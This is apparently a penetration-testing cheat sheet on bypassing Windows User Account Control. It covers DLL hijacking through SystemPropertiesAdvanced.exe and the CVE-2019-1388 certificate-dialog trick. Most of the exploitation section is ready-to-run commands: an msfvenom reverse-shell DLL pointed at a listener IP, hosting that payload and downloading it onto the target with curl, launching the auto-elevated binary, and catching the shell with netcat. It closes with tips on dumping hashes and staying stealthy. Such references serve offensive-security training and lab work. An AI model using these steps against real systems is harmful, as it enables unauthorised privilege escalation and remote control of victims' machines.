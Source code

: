 ```yaml
---

## 🟠 23 ★ Bypassing UAC

---
```

### Technique Name:

Bypassing User Account Control (UAC) – DLL Hijacking via SystemPropertiesAdvanced.exe
### Summary:

User Account Control (UAC) is a Windows feature that restricts elevated privileges unless explicitly granted by the user. However, it is not a security boundary and can often be bypassed to gain elevated execution without triggering a prompt. This technique leverages DLL hijacking via `SystemPropertiesAdvanced.exe`, an auto-elevated binary, and the search order Windows uses to load DLLs.
### Conditions:

- User must be in the Administrators group, but running in medium integrity.    
- EnableLUA must be enabled (`1`).
- Windows build must be ≤ 14393 (Windows 10 1607).
- The SystemPropertiesAdvanced.exe (32-bit) binary must be present.
- `%PATH%` must include a writable folder (e.g., `%LOCALAPPDATA%\Microsoft\WindowsApps`).
### Enumeration:

```powershell
# Check if user is in Administrators group
net localgroup administrators

# Check current user integrity level
whoami /groups

# Check if UAC is enabled
REG QUERY HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA

# Check UAC level (0x5 means "Always notify")
REG QUERY HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin

# Check OS version and build
[System.Environment]::OSVersion.Version

# Check %PATH% for writable folders
cmd /c echo %PATH%
```
### Exploitation Steps:

1. Generate malicious DLL    

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

2. Host DLL

```bash
sudo python3 -m http.server 8080
```

3. Download DLL on target

```powershell
curl http://10.10.14.3:8080/srrstr.dll -o "$env:LOCALAPPDATA\Microsoft\WindowsApps\srrstr.dll"
```

4. Terminate existing rundll32 processes

```cmd
tasklist /svc | findstr "rundll32"
taskkill /PID <pid> /F
```

5. Execute auto-elevated binary

```cmd
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

6. Catch shell 

```bash
nc -lvnp 8443
```
### Post-Exploitation:

- Shell runs with elevated token (high integrity).
- Confirm privileges via `whoami /priv`.
- Search for misconfigurations or dump hashes with SYSTEM rights.    
- Maintain stealth – this technique avoids GUI prompts and logs minimally.

### Notes:

- This DLL hijack abuses missing `srrstr.dll`.
- It was patched in later builds (>1607), making this version-dependent.    
- You may test the DLL directly with:

```cmd
rundll32 shell32.dll,Control_RunDLL C:\Path\To\srrstr.dll
```
### CVE-2019-1388 - Certificate Dialog UAC Bypass

This vulnerability abuses the certificate information dialog in UAC prompts. A signed binary (e.g., `hhupd.exe`) with a valid `SpcSpAgencyInfo` field spawns a browser as SYSTEM, from which you can break out into a SYSTEM shell.

Exploitation Steps:

1. Run `hhupd.exe` as admin.
2. In the UAC prompt, click "Show information about the publisher's certificate".
3. In the General tab, click the hyperlink in the "Issued By" field.
4. A browser opens as SYSTEM.
5. Right-click > View Page Source > Save As
6. In the save dialog, launch `cmd.exe` by typing its path and pressing Enter.

Patch released in Nov 2019, but many systems still vulnerable.
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #UAC_Bypass